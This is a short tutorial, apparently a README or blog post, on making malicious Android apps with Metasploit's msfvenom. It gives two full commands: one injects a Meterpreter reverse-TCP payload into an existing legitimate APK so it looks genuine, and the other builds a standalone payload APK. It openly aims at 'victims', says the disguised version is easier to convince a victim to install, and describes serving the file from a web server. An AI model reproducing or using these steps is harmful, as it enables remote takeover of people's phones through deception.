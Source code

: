 You can inject the Android Meterpreter into an existing APK or you can create default milicious apk of metasploit using msfvenom.
Here, You will know two methods: method 1 to create an injected apk from existing apk  which may make it easier to convince your victim to install the APK. And method 2 to create default metasploit milicious apk

## Method 1: 

Requirenments: (i) Apktool (latest)  (ii) Zipalign (installation help given here)

to create milicious apk from existing type command:
```
msfvenom -x  your_existing.apk -p android/meterpreter/reverse_tcp  LHOST=your_ip    LPORT=your_listning_port    -o   your_milicious_apkname.apk

```
this will generate your milicious apk which will look like your existing apk but its milicious.
you can send this apk to victim using apache web server or nginx and port forwarding.


To know how to create listning using msfconsole click here.

## Method 2: 
 
Requirenments: updated metasploit framework

To create default milicious apk of msfvenom type command:
```
msfvenom  -p android/meterpreter/reverse_tcp  LHOST=your_ip    LPORT=your_listning_port    -o   your_milicious_apkname.apk

```

This will generate your milicious apk. Its size will be (9 to 12 kb) approx.
And again you can send this apk to victim using apache web server or nginx and port forwarding.


Again To know how to create listning using msfconsole click here.
